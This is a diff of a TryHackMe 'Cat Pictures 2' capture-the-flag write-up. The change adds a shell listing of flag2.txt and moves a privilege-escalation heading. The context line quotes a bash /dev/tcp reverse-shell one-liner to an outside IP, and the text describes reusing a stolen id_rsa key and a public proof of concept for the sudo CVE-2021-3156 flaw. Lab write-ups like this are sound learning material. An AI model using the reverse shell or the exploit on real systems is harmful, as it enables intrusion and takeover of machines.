

Before and after one commit to ACHUX21/Writeups, a Markdown page: TryHackMe/Cat Pictures 2/Readme.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/TryHackMe/Cat Pictures 2/Readme.md
+++ b/TryHackMe/Cat Pictures 2/Readme.md
@@ -163,13 +163,21 @@ bash -c "bash -i >& /dev/tcp/10.18.81.1/14632 0>&1"
 
 After obtaining a shell, I discovered an "id_rsa" file, which I utilized to establish a more stable shell.
 Subsequently, I attempted to exec Linpeas on the server to conduct further enumeration and analysis.
+
+```bash
+bismuth@catpictures-ii:~$ ls
+flag2.txt
+```
+
 </br>
+## Priv-Esc
+
+
 we have a vulnerable sudo version here.
 After patiently waiting during the Linpeas scan, I stumbled upon an interesting CVE (Common Vulnerabilities and Exposures) in the target machine. To gather more information, I conducted a Google search and came across a GitHub proof-of-concept ([! POC](https://github.com/blasty/CVE-2021-3156)) related to the discovered vulnerability.
 
 </br>
 
-## Priv-Esc
 
 Let's set up a Python3 server to share the CVE details with the target.
 
````
